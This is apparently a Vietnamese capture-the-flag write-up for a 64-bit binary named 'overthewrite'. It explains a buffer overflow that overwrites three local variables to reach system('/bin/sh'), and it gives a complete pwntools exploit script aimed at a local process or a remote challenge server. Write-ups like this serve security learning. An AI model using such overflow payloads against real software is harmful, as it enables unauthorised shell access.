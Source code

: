 Giờ ta sẽ nhìn sơ qua file binary được cung cấp và các chế độ bảo vệ:

![image](https://user-images.githubusercontent.com/114044703/213360650-ef1146e6-5afd-4672-92f7-43bac4a32f3c.png)

![image](https://user-images.githubusercontent.com/114044703/213362730-bb6de0e8-891f-4d91-8149-7817fa216624.png)


Vậy chúng ta sẽ làm việc với file binary 64 bit. Khi chạy thì chương trình sẽ yêu cầu ta nhập key khi sai thì dừng chương trình.

![image](https://user-images.githubusercontent.com/114044703/213361251-717903c3-b9d2-4e48-b82a-bbac4ca0828c.png)

![image](https://user-images.githubusercontent.com/114044703/213361301-9ec9c468-001c-46eb-bf46-47dbfc5da649.png)

Sau khi đọc hàm main từ trình ghidra ta thấy chương trình sẽ cho ta nhập 0x50 byte vào biến input sau đó kiểm tra xem num1, num2, num3 có đúng điều kiện không, nếu có thì thực thi system("/bin/sh") không thì kết thúc chương trình

#BUG: Ta nhận thấy input được ghi vào 0x50 dù không đủ để đè save rip nhưng đủ để có thể đè lên biến num1, num2, num3.

Ý tưởng: 
  - Vậy ta có thể sử dụng lỗi buffer over flow để ghi lại num1, num2, num3 để ghi lại để thực thi system("/bin/sh") 

Ta sẽ khai thác vơi những dữ liệu trên:
```
from pwn import *
debug=1

if debug:
	t=process('./overthewrite')
	#gdb.attach(t,api=True)
else:
	t=remote("159.89.197.210",9992)
	
offset1=0x58-0x20
offset2=0x58-0x18
offset3=0x58-0xc
offset=0x58-0x38

payload=b"A"*(offset)+p64(0x20656d6f636c6557)+p64(0x4353434b206f74)
payload=payload.ljust(offset1,b"A")
payload+=p64(0x215241104735f10f)
payload=payload.ljust(offset2,b"A")
payload+=p64(0xdeadbeefcafebabe)
payload=payload.ljust(offset3,b"A")
payload+=p64(0x13371337)

t.send(payload)
t.interactive()
```

Sau khi chạy file:

![image](https://user-images.githubusercontent.com/114044703/213362417-470b3227-4a32-4519-b618-a2fffce4528a.png)




